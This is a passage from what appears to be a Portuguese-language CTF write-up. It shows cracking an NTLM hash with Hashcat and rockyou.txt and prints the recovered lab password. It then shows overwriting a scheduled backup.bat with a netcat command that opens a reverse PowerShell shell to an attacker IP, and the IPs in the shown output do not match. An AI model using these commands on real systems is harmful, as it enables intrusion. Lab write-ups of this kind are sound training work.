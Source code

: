 Pegamos toda a **hash NTLM**, salvamos em um arquivo e utilizamos o **Hashcat** com a wordlist **rockyou.txt** para tentar quebrar a senha. Após algum tempo de execução, tivemos sucesso e obtivemos a senha em texto claro.

![](attachment/99b0fa028cbfe67e93b9968611a0d2bc.png)

> [!Credencial do o.armstrong]
> arMStronG08

## 4.2 Método 2: Obtendo a Reverse Shell
Como é o usuário **`o.armstrong`** quem executa o `backup.bat`, não é qualquer executável que funcionará — precisamos criar uma forma de estabelecer uma **conexão reversa**.  
Uma das abordagens mais simples é utilizar um **binário do Netcat compilado para Windows**, salvá-lo no sistema e, em seguida, adicionar ao `backup.bat` um **comando em PowerShell** que localize esse binário e o execute para iniciar a shell reversa.

```
*Evil-WinRM* PS C:\Scripts> del backup.bat

*Evil-WinRM* PS C:\Scripts> Set-Content -Path "C:\Scripts\backup.bat" -Value "C:\Windows\System32\Tasks\nc.exe 10.11.85.218 443 -e powershell"

*Evil-WinRM* PS C:\Scripts> type backup.bat

C:\Windows\System32\Tasks\nc.exe 10.11.72.22 443 -e powershell
```
